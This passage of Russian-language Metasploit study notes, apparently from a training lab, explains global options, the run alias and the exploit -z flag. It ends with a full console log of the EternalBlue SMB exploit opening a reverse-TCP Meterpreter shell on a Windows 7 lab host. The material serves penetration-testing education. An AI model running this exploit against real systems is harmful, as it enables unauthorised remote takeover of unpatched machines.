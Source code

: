 
Команда `setg` устанавливает глобальное значение, которое будет использоваться до тех пор, пока вы не выйдете из 
Metasploit или не очистите его с помощью `unsetg` команды.


### Использование модулей

После того, как все параметры модуля установлены, вы можете запустить модуль с помощью `exploit` команды. Metasploit 
также поддерживает `run` команду, которая является псевдонимом, созданным для exploit команды, поскольку слово 
«эксплойт» не имело смысла при использовании модулей, которые не были эксплойтами (сканеры портов, сканеры 
уязвимостей и т. д.).


Команду `exploit` можно использовать без параметров или с `-z` параметром « ».

Команда `exploit -z` запустит эксплойт и переведет сеанс в фоновый режим сразу после его открытия.

Команда «exploit -z»
```commandline
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
